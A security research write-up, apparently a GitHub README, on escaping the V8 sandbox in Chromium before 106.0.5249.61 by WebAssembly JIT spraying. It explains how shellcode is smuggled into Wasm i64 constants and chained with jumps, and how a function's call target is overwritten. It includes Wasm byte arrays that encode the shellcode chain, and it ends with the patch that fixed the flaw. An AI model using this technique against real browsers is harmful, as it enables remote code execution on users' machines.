# Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 1 (Chromium < 106.0.5249.61)

In this post, I will explain how to escape V8 sandbox to get RCE via WebAssembly JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS
- [cb5c1b8a1fd1eee214501ee06fdd4566886803c1](https://chromium.googlesource.com/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1) (Jul 26th, 2022)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly jump table

```js
// flags: --allow-natives-syntax --shell

/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.



There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.



Each `jmp` instruction in jump table is pointing the address of compiled code of each function in Wasm module.

The address of jump table is stored in [`WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=325), as [`jump_table_start`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=360).





## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L7) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L12)/[AAW](./pwn.js#L24) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
/*
(module
    (func (export "main")
        i64.const 0x4141414141414141
        i64.const 0x4242424242424242
        i64.const 0x4343434343434343
        return
    )
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x26, 0x1, 0x24, 0x0, 0x42, 0xc1, 0x82, 0x85, 0x8a, 0x94, 0xa8, 0xd0, 0xa0, 0xc1, 0x0, 0x42, 0xc2, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0xa1, 0xc2, 0x0, 0x42, 0xc3, 0x86, 0x8d, 0x9a, 0xb4, 0xe8, 0xd0, 0xa1, 0xc3, 0x0, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);

let wasm_instance = new WebAssembly.Instance(wasm_module);
% DebugPrint(wasm_instance);
```



`main()` in `wasm_module` is a function which loads 64-bit constants. These constants are inserted to the compiled code as raw numbers. It means that we can insert arbitrary 8-byte constants to executable code region. If we move `rip` to the address of any constant, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)





If `main()` loads the same number twice, the second is not inserted to compiled code. Then, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different. In addition, we should consider that the distance between shellcodes is changed from the middle because the code which backs registers up to stack is inserted if all registers are in use.

[`pwn.wat`](./pwn.wat)

[`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

### Hijack execution flow

When Wasm function is called, we can see following execution flow:







`WasmInternalFunction` object is inside of V8 sandbox, so we can overwrite its call target using sandboxed AAW primitive and control `rip`.

[`pwn.js`](./pwn.js)



## Patch

> [[sandbox] Refactor and sandboxify WasmInternalFunction::call_target](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) (Jul 26th, 2022)
> This CL refactors WasmInternalFunction to no longer inherit from Foreign but instead contain a (sandboxed) ExternalPointer field for the call target.